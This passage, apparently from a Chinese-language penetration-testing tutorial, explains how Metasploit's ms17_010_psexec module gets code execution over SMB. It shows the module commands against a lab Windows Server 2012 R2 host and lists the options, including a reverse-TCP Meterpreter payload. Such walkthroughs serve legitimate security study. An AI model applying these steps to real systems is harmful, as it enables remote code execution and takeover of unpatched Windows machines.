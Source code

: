 [![](assets/1701606737-8ad9456eccb294d872eef1625546b69d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106233943-b520d550-7cba-1.png)

通过以上分析可知，调用 smb\_pwn 函数后的利用过程为：构造服务程序命令、创建服务、启动服务、删除服务、SMB 读取服务程序执行结果、SMB 删除服务启动后的 bat 批处理文件。

## exploit ms17\_010\_psexec

exploit/windows/smb/ms17\_010\_psexec 模块，执行 payload 上线进行漏洞攻击

> EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

攻击：Automatic/PowerShell/Native upload/MOF upload

支持：<= Windows Server 2012、32/64 位系统

### 攻击测试

环境：Windows Server 2012 R2、192.168.1.9

使用模块

```plain
msf6 > use exploit/windows/smb/ms17_010_psexec
```

查看模块默认配置

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > show options
```

*   RHOSTS，远程目标 IP-默认为空，需设置
*   RPORT，远程 SMB 共享端口 - 默认 445
*   SERVICE\_NAME，服务名 - 默认随机 8 位字母字符串
*   SERVICE\_DISPLAY\_NAME，服务展示名 - 默认随机 16 位字母字符串
*   SERVICE\_DESCRIPTION，服务描述 - 默认为空
*   SMBUser、SMBPass，SMB 认证用户名/密码，默认为空 - 采用匿名访问
*   SMBSHARE，目标共享 - 默认为 `ADMIN$`
*   Payload，反连信息 - 默认为 `windows/meterpreter/reverse_tcp`、`IP:4444`
*   Target，攻击目标的额外配置 - 默认 Automatic
